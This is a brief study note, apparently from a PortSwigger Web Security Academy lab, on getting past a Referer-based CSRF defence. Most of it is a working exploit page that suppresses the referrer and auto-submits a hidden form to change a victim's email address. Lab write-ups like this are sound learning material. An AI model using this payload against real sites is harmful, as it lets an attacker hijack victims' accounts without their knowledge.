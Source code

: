 This lab uses the referer parameter, only that. So, the way to sort this out is add a meta tag and declare that you will not use the "referrer" tag
![[Pasted image 20250204220505.png]]
`<html>`
    `<head>`
        `<meta name="referrer" content="never">` 
    `</head>`
    `<body>`
        `<h1>Hello world!</h1>`
        `<form action="https://0a3500f3048aee87dac97c23006c00db.web-security-academy.net/my-account/change-email" method = "post" id="csrf-form">`
            `<input type="hidden" name="email" value="test@test.ca">`
        `</form>`

        `<script>document.getElementById("csrf-form").submit()</script>`
    `</body>`
`</html>`